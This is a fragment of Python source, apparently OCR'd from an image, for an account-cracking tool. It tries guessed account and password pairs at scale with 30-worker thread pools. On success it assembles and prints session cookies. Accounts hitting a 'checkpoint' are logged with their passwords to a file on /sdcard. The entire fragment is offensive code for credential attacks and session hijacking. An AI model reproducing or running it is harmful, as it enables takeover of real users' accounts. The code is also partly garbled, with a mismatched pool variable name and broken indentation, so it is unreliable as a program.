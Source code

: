                 if 'y' in apps:
                    check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except Exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mCookie\033[1;93m] \033[1;97m'+cookies)

                 break
            elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;91mRA-CP\033[1;91m] \033[1;91m'+acc+' \033[1;91m•\033[1;91m '+pword)
                cpacc.append(acc)
                open('/sdcard/RA.RANDOM-CP.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue
        loop += 1    
      except Exception as e: time.sleep(10)


      for x in open('.rndm','r').read().splitlines():
        accounts.append(x)

    if    m=='2':
        with speed(max_workers=30) as speeed:
            speede.map(start2, accounts)
    elif    m=='1':
        with speed(max_workers=30) as speede:
            speede.map(start, accounts)
    else:
       with speed(max_workers=30) as speede:
            speede.map(start, accounts)
exit()



main_apv()
